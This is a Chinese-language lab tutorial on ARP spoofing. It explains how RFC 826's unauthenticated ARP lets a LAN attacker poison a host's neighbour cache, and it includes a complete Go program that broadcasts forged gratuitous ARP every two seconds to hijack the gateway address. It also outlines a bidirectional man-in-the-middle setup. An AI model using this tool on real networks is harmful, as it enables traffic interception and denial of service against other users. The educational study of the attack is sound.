








# ARP 欺骗

## 拓扑结构

两台 PC，两台交换机，一台路由器，一朵 Cloud，两个子网192.168.239.0/24 和 172.17.165.0/24，两个子网通过 AR1 路由器相连；AR1 分别作为两个子网的网关（192.168.239.254/24 与 172.17.165.254/24）。



PC1 处于子网 192.168.239.0/24，配置 IPv4 地址为 192.168.239.10，网关的 IPv4 地址为 192.168.239.254，掩码为 255.255.255.0

```text
IPv4 address......................: 192.168.239.10
Subnet mask.......................: 255.255.255.0
Gateway...........................: 192.168.239.254
Physical address..................: 54-89-98-AA-03-E6
```

PC2 处于子网 172.17.165.0/24，配置 IPv4 地址为 172.17.165.10，网关的 IPv4 地址为 172.17.165.254，掩码为 255.255.255.0

```text
IPv4 address......................: 172.17.165.10
Subnet mask.......................: 255.255.255.0
Gateway...........................: 172.17.165.254
Physical address..................: 54-89-98-24-60-98
```

AR1 作为两个子网共同的网关，分别给 G0/0/0 接口配置 IPv4 地址192.168.239.254/24，给 G0/0/1 接口配置 IPv4 地址 172.17.165.254/24

```shell
sysname AR1
interface G/0/0
 ip address 192.168.239.254 24
interface G0/0/1
 ip address 172.17.165.254 24 
```

现在网络拓扑就搭建好了

## PC1 访问 PC2

PC2 的 IPv4 地址为 172.17.165.10，然后在 PC1 执行 ping 172.17.165.10，多尝试几次就能让 PC1 ping 通 PC2，然后 PC1 执行 arp -a，就能看到 neighbour cache 信息，可以发现 192.168.239.254 对应的 MAC 地址为 00-E0-FC-5F-40-04。




## hacker 出现

然后在 Cloud 上一台主机上运行一个小脚本(sudo ./exp-active  -i ens33  -s 192.168.239.254)，然后再让 PC1 访问 PC2 也就是 ping 172.17.165.10，最后再在 PC1 上执行 arp -a。




这个时候在 PC1 检查 neighbour cache 信息可以看到 192.168.239.254 对应 MAC 地址为 00-0C-29-75-44-66，与之前的 00-E0-FC-5F-40-04 是不同的，并且 PC1 现在无法 Ping 通 PC2了。


## Why？

### PC1 ping PC2 的背后

1. IP 是 TCP/IP 协议簇里的网际层协议，对应 OSI 的第三层。第三层的核心作用不是直接把帧从某个交换机端口转发出去，而是根据目标 IP 做路由选择，也就是在操作系统会通过 Forwarding Information Base 找到 next-hop IP 和出接口，neighbour cache 决定 next-hop MAC，bridge FDB 决定 Ethernet frame 从哪个端口出去，三层 IP 路由只决定“下一跳是谁”，但它并不知道下一跳的 MAC 地址。真正发到以太网上之前，还需要 ARP，在主机执行 ping 开始，PC1 知道自己的 IPv4 地址：192.168.239.10，和知道 PC2 的 IPv4 地址：172.17.165.10，Ping 就会构造一个 ICMP Echo Request，这个 ICMP 报文被封装进 IP 报文当中， IP 报文的 src address 为 192.168.239.10 和 dst address 172.17.165.10，知道数据包的 dst address 后就需要判断 172.17.165.10 怎么到达，
2. 那么就会查找本机的 FIB，进行 FIB lookup 的最长前缀匹配，找到匹配的路由表项，因为 172.17.165.10 不在 PC1 的直连网段 192.168.239.0/24 内，那么 PC1 不会直接 ARP 查询 172.17.165.10 的 MAC 地址，而是会根据路由表找到一个下一跳网关，然后知道网关是在直连网段 192.168.239.0/24 内，那么这个时候就会把下一跳 IP 设置为网关地址，而不是最终目的地址 172.17.165.10。也就是说，对于 PC1 来说，这个 IP 包的三层目的地址仍然是 IP dst = 172.17.165.10 ，但是二层要发送给的对象是网关（192.168.239.254），也就是 next-hop IP 变为了 192.168.239.254，并且可以根据 FIB 找到出接口（网卡抽象的 net_device），
3. 接下来 PC1 需要知道这个网关的 IP 对应的 MAC 地址，于是操作系统查询 neighbour cache 也就是本机 ARP 缓冲表，但是一开始的 neighbour cache 是不存在网关 192.168.239.254 的 NAC 地址的，那么 PC1 先会发起 ARP 请求（Who has 192.168.239.254? Tell 192.168.239.10），这个 ARP Request 会被封装成二层广播帧

```text
  Ethernet dst MAC = ff:ff:ff:ff:ff:ff
  Ethernet src MAC = 54:89:98:AA:03:E6
  ARP sender IP    = 192.168.239.10
  ARP sender MAC   = 54:89:98:AA:03:E6
  ARP target IP    = 192.168.239.254
  ARP target MAC   = 00:00:00:00:00:00
```

4. 交换机收到这个广播帧后进行学习+转发，会在同一个二层广播域内泛洪这个 ARP 请求，网关（AR1）收到后，发现 ARP target IP 是自己的接口地址 192.168.239.1，于是返回 ARP Reply（192.168.239.254 is at 00:E0:FC:5F:40:04），同样的交互机收到这个单播帧进行学习和转发，PC1 收到 ARP Reply 后，把网关 IP 和网关 MAC 的映射关系写入 neighbour cache 当中，然后 PC1 才能真正发送前面构造好的 ICMP Echo Request。

5. 此时完整的发送帧可以理解为：

```text
  Ethernet Header:                  
    src MAC = 54:89:98:AA:03:E6  
    dst MAC = 00:E0:FC:5F:40:04
    type    = IPv4
  IP Header:               
    src IP  = 192.168.239.10   
    dst IP  = 172.17.165.10          
    proto   = ICMP
    TTL     = 64     
  ICMP:
    type    = Echo Request
```

这个以太网帧到达交换机后，交换机会根据目的 MAC，也就是网关的 MAC 地址，查询自己的 FDB 表，决定应该从哪个交换机端口把帧转发出去。网关收到该以太网帧后，发现目的 MAC 是自己的 MAC，于是接收这个帧，去掉以太网头部，取出里面的 IP 报文。然后网关查看 IP 报文的目的地址 dst IP = 172.17.165.10，发现这个目的 IP 不是自己的本地地址，所以网关进入三层转发流程。它会先检查 TTL，如果 TTL 大于 1，则将 TTL 减 1，并重新计算 IP header checksum。然后网关根据 172.17.165.10 查询自己的 FIB，继续进行最长前缀匹配，找到通往 172.17.165.10 的下一跳和出接口。

6. 剩下的就是 AR1 通过 dst IP = 172.17.165.10 确定所在网段是网关的直连网段，然后网关可以直接把这个 IP 包交给 PC2，但是在真正发出之前，网关同样需要知道 PC2 的 MAC 地址。然后与之前的流程类似，反正这个 ICMP Echo Request 被 PC2 成功收到后，就返回一个 Echo Reply，Echo Reply 返回时也会经历类似过程，PC2 查询自己的 FIB，找到去往 192.168.239.10 的下一跳和出接口；如果下一跳不在 neighbour cache 中，则通过 ARP 解析下一跳 MAC；然后封装以太网帧发送给网关；网关再查自己的 FIB，把 Echo Reply 转发回 PC1 所在的网段。最终 PC1 收到 Echo Reply，ping 显示连通。

### ARP Spoofing

我们关注“PC1 的操作系统内核查询 neighbour cache，查询网关 192.168.239.254 的 NAC 地址的 ARP 表项”，那么如果命中了，也就是**存在对应的 ARP 表项，操作系统内核就会直接使用这个表项中的 MAC 地址来封装以太网帧，而不会再次确认这个 MAC 地址是否真的属于网关**。那么我们能否进行利用？


在 RFC 826 当中 arp reply 的接收流程：

- 收到 ARP 包后，如果 <protocol type, sender protocol address> 已在表中，就直接用包里的 sender hardware address 更新原有条目。
- 如果自己是目标地址，并且表中没有该项，就把发送方的 <protocol type, sender protocol address, sender hardware address> 加入表。
- 明确说明在查看 opcode 之前就把发送方三元组合并进表；如果已有条目，新硬件地址会覆盖旧地址。
说明 RFC 826 的 ARP 接收算法默认信任报文中的发送方地址映射，没有提到校验发送方身份 、认证报文来源、签名、挑战响应等机制。

如果正常情况下 neighbour cache 中存在正确表项，那么 PC1 会把 ICMP Echo Request 封装成：

```text
  Ethernet Header:                  
    src MAC = 54:89:98:AA:03:E6  
    dst MAC = 00:E0:FC:5F:40:04
    type    = IPv4
  IP Header:               
    src IP  = 192.168.239.10   
    dst IP  = 172.17.165.10          
    proto   = ICMP
    TTL     = 64     
  ICMP:
    type    = Echo Request
```

也就是说，这个以太网帧会被发给真正的网关。
但是 ARP 本身缺乏身份认证机制。局域网中的攻击者可以伪造 ARP Reply，在局域网内发送 ARP Reply（192.168.239.254 is at 00:0c:29:75:44:66）如果 PC1 接受了这个伪造的 ARP 信息，PC1 的 neighbour cache 就可能变成当中的 192.168.239.254 -> 00:0c:29:75:44:66，此时，从 PC1 的视角看，路由查找结果并没有变，但是 neighbour cache 中记录的下一跳 MAC 已经被污染了。因此 PC1 发送 IP 包时，会封装成：

```text
  Ethernet Header:                  
    src MAC = 54:89:98:AA:03:E6  
    dst MAC = 00:0c:29:75:44:66
    type    = IPv4
  IP Header:               
    src IP  = 192.168.239.10   
    dst IP  = 172.17.165.10          
    proto   = ICMP
    TTL     = 64     
  ICMP:
    type    = Echo Request
```

也就是说，三层路由决策仍然认为下一跳是网关，但二层实际发送对象已经变成了攻击者主机，如果攻击者只是接收这些帧但不转发，那么 PC1 到外部网络的通信会中断，表现为网络不可达或者丢包。

或者如果攻击者开启 IP forwarding，并且继续把收到的包转发给真正的网关，同时也欺骗网关，让网关认为 192.168.239.10 is at 00:0c:29:75:44:66，那么攻击者就会处在 PC1 和网关之间，形成典型的中间人位置 PC1 <-> 攻击者 <-> 网关 <-> 远端主机，从而欺骗主机让网关 IP 对应的是攻击者 MAC，欺骗网关让受害者 IP 对应的是攻击者 MAC，进行双向欺骗。

## 利用

因为被动欺骗的成功率更小，所以我们采用成功率更大的主动欺骗，但是如何流量分析的话，那么被发现的概率也非常高，但是我们是做实验学习 arp 欺骗的原理，所以主动欺骗的方案是可行，那么要加深理解，如果只是拿 arpspoof 类似成熟的工具完成 arp 欺骗，那么感觉差点意思，所以为了加深理解并且方便编码根据思路用 golang 写了个 arp 主动欺骗的程序，也不想自己一个个 byte 去解析 arp 协议，所以使用第三方库 github.com/mdlayher/arp，不然直接拿 C 写的话代码太冗长了，并且为了方便采用 RFC5227的 ARP Announcement 完成利用，这样方便减少一个 -t 参数，扩大影响访问，但是被发现的概率一定是更高的，因为局域网当中会充斥大量 ARP 的流量。




```golang
//go:build active

package main

import (
 "context"
 "flag"
 "fmt"
 "os"
 "os/signal"
 "time"

 "github.com/mdlayher/arp"
)

// 发送免费 ARP 宣告
func writeGratuitousARP(client *arp.Client, spoofedIP string, srcMAC []byte) error {
 ip, err := parseIPv4(spoofedIP)
 if err != nil {
  return err
 }
 // ARP 宣告的目标 MAC 为广播地址
 targetMAC := []byte{0xff, 0xff, 0xff, 0xff, 0xff, 0xff}
 pkt, err := arp.NewPacket(
  arp.OperationRequest, // arp.OperationReply 也行
  srcMAC,       // 发送者硬件地址（攻击机的）
  ip,           // 发送者协议地址（伪造的主机）
  targetMAC,    // 广播
  ip,           // 目标的协议地址与发送者相同
 )
 if err != nil {
  return err
 }
 return client.WriteTo(pkt, targetMAC)
}

func run(ifname, spoofedIPStr string) error {
 // getInterface 内部直接用标准库 net 包获取接口和地址列表，再借助 netip 包做纯净的地址解析和 IPv4 筛选，从而根据网卡名称获取本地接口对象和 IPv4 地址
 iface, myIP, err := getInterface(ifname)
 if err != nil {
  return fmt.Errorf("failed to get local MAC/IP for %s: %w", ifname, err)
 }
 // parseIPv4 内部使用 netip.ParseAddr 解析字符串，并严格校验结果必须为 IPv4 地址，从而将合法的点分十进制 IPv4 字符串转换为 netip.Addr 类型
 spoofedIP, err := parseIPv4(spoofedIPStr)
 if err != nil {
  return err
 }
 // Dial 通过传入的 *net.Interface 获取接口的 IPv4 地址，并绑定一个原始套接字用于收发 ARP 报文，从而创建出一个可用于 ARP 通信的 Client
 client, err := arp.Dial(iface)
 if err != nil {
  return fmt.Errorf("arp dial %s: %w\nHint: run as root or with CAP_NET_RAW", ifname, err)
 }
 defer client.Close()  // 注册清理动作
 // NotifyContext 基于父上下文创建子上下文，注册 os.Interrupt 信号；当收到中断信号或调用 stop 时自动取消上下文，实现程序的优雅退出
 ctx, stop := signal.NotifyContext(context.Background(), os.Interrupt)
 defer stop()  // 注册清理动作，确保在 run 返回前停止信号监听并释放资源

// 日志直接输出到控制台
 fmt.Printf("[*] Local MAC : %s\n", iface.HardwareAddr)
 fmt.Printf("[*] Local IP  : %s\n", myIP)
 fmt.Printf("[*] Spoofing  : %s is at %s\n", spoofedIP, iface.HardwareAddr)
 fmt.Println("[*] Sending gratuitous ARP every 2 seconds")
 fmt.Println("[*] Press Ctrl+C to exit")
 // NewTicker 创建一个定时器，每隔 2 秒向它的 C 通道发送当前时间，驱动后续循环中周期性发送免费 ARP 宣告
 ticker := time.NewTicker(2 * time.Second)
 defer ticker.Stop() // 在 run 返回前停止定时器，防止资源泄漏

 for {
    // 核心就是构造出 ARP reply 向全网进行宣告
  if err := writeGratuitousARP(client, spoofedIPStr, iface.HardwareAddr); err != nil {
   fmt.Fprintf(os.Stderr, "send gratuitous ARP: %v\n", err)
  } else {
   fmt.Printf("[+] Sent gratuitous ARP: %s is at %s\n", spoofedIP, iface.HardwareAddr)
  }

  select {
  case <-ctx.Done(): // 退出
   fmt.Println("\n[*] Exiting (no restore capability without victim IP)")
   return nil
  case <-ticker.C: // 等 2 秒
  }
 }
}

func main() {
 var ifname, spoofedIP string
 flag.StringVar(&ifname, "i", "", "network interface")
 flag.StringVar(&spoofedIP, "s", "", "spoofed IPv4 address")
 flag.Parse()

 if ifname == "" || spoofedIP == "" {
  flag.Usage()
  os.Exit(1)
 }

 if err := run(ifname, spoofedIP); err != nil {
  fmt.Fprintln(os.Stderr, err)
  os.Exit(1)
 }
}
```

当中的核心代码就是 writeGratuitousARP 的实现，可以构造出 arp reply 包，也可以符合 RFC 5227 有关于 ARP Announcement 的提及，描述的是 opcode=1 也就是 arp Request，两个都能让操作系统的 neighbour cache 产生对应的表项。
但是这里有缺陷的，这个脚本实现很简单，只需要一个连接了对应局域网的网卡，那么就能影响这个局域网的所有主机的 neighbour cache，但是因为是通过 rfc5227 的 ARP Announcement 的实现，所以是以广播形式发送，rfc5227 当中定义了一种情况：如果主机收到一个 ARP 报文（无论是 Request 还是 Reply），其发送者 IP 地址 等于自己的 IP，但发送者硬件地址并非自己的 MAC，则视其为 冲突 ARP 包，表明有其他主机也在使用该地址，那么为了解决冲突，这台主机可以采用放弃地址，或者广播一次防御性的 ARP Announcement，将自己的 IP 与硬件地址填入发送者字段，目标 IP 设为自身，目标硬件地址设为全零，之后可继续正常使用，但若在 DEFEND_INTERVAL 内再次收到冲突包，则必须立即放弃地址，以避免双方陷入无休止的广播竞争；或者同样受 DEFEND_INTERVAL 约束，不能在短时间内反复发送防御宣告，防止广播风暴。

简单来讲就是会在出现 ARP Announcement 的竞争时，在这里网关也会发送一个 （Gratuitous ARP for 192.168.239.254 (Reply) (duplicate use of 192.168.239.254 detected!)），通知局域网内当中有人干坏事进行了 ARP Announcement，那么局域网的主机相信谁呢？更多情况是采用相信第一个数据包 ARP Announcement，因为之前提到过“RFC 826 的 ARP 接收算法默认信任报文中的发送方地址映射，没有提到校验发送方身份 、认证报文来源、签名、挑战响应等机制。”，也就是其实可以贼喊捉“贼”，将arp.OperationRequest 改为 arp.OperationReply，一样局域网当中的主机依然无法明确到底应该相信哪个。这样就会造成**存在对应的 ARP 表项，操作系统内核就会直接使用这个表项中的 MAC 地址来封装以太网帧，而不会再次确认这个 MAC 地址是否真的属于网关**，然后调用 ping 命令构造 ICMP Echo request 报文当中的 dst MAC 为虚假的网关 MAC 地址。


## 总结

ARP 欺骗之所以能够成功，根源在于 RFC 826 设计的无条件信任原则：主机在收到 ARP 报文后，无论该报文是请求还是应答，都会不加验证地直接用其中的发送方 IP‑MAC 映射更新自己的邻居缓存，而操作在转发数据时需要依赖 neighbour cache 将下一跳 IP 解析为下一跳 MAC 地址。因此，一旦攻击者伪造 ARP 报文，把“网关 IP 对应的 MAC 地址”伪造成自己的 MAC，受害主机后续发往网关的以太网帧就会被错误地封装成发往攻击者的 MAC 地址，虽然受害主机的三层路由判断并没有被改变，但是在二层封装阶段，neighbour cache 已经被污染，从 IP 层看，数据包仍然是发往远端主机 172.17.165.10；但从以太网层看，这个帧已经被发给了攻击者。攻击者如果不转发，通信就会中断。